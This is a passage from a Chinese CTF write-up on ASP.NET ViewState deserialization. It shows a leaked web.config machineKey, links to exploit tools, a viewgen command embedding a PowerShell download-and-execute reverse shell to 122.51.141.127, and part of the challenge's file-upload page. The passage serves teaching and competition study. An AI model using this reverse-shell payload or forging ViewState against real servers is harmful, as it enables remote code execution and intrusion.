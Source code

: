 读取下来

```html
<configuration>
<system.web>
<customerrors mode="Off">
    <machinekey validationkey="b07b0f97365416288cf0247cffdf135d25f6be87" decryptionkey="6f5f8bd0152af0168417716c0ccb8320e93d0133e9d06a0bb91bf87ee9d69dc3" decryption="DES" validation="MD5">
</machinekey></customerrors></system.web>
</configuration>
```

看到了熟悉的validation key，显然是view state的反序列化漏洞。

https://www.4hou.com/posts/GYq7（漏洞介绍）

 https://github.com/pwntester/ysoserial.net （利用工具）

https://github.com/0xacb/viewgen.git（利用工具）

[解码ViewState的网站](https://www.secshi.com/goto/hyh9)

ViewState参数([参考链接](https://www.secshi.com/goto/bc6d))

viewstate是前端传入了加密参数到后端，后端进行反序列化，我们如果窃取了密钥则可以主动构造这个参数。(直接在自己服务器上搭建asp，或者使用viewgen进行操作)

使用viewgen生成payload的话，要注意  需要把machineKey和validationKey的k变成大写的，不然程序会报错

```
./viewgen --webconfig web.config -m CA0B0334 -c "powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 122.51.141.127 -p 6666 -e cmd" > exp
```

正常反弹shell这样就行了，但是这里使用了签名算法来验证viewstate，我们需要自己搭建IIS服务器，生成这个viewstate和对应的签名。

下面是wp中修改后的Default.aspx脚本，修改了import，增加了第二个按钮和规则，需要一些asp开发知识。

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Collections.Generic" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<%@ Import Namespace="System.Reflection" %>
<%@ Import Namespace="System.Runtime.Serialization" %>
<%@ Import Namespace="System.Web.UI" %>
<%@ Import Namespace="System.Linq" %>
<script runat="server">
    protected void Button1_Click(object sender, EventArgs e) {
        if (FileUpload1.HasFile) {
            try {
                System.Web.HttpContext context = System.Web.HttpContext.Current;
                String filename = FileUpload1.FileName;
                String extension = System.IO.Path.GetExtension(filename).ToLower();
                String[] blacklists = {".aspx", ".config", ".ashx", ".asmx", ".aspq", ".axd", ".cshtm", ".cshtml", ".rem", ".soap", ".vbhtm", ".vbhtml", ".asa", ".asp", ".cer"};
                if (blacklists.Any(extension.Contains)) {
                    Label1.Text = "What do you do?";
                } else {
                    String ip = context.Request.ServerVariables["REMOTE_ADDR"];
                    String upload_base = Server.MapPath("/") + "files/" + ip + "/";
                    if (!System.IO.Directory.Exists(upload_base)) {
                        System.IO.Directory.CreateDirectory(upload_base);
                    }

                    filename = Guid.NewGuid() + extension;
                    FileUpload1.SaveAs(upload_base + filename);

                    Label1.Text = String.Format("<a href='files/{0}/{1}'>This is file</a>", ip, filename);
```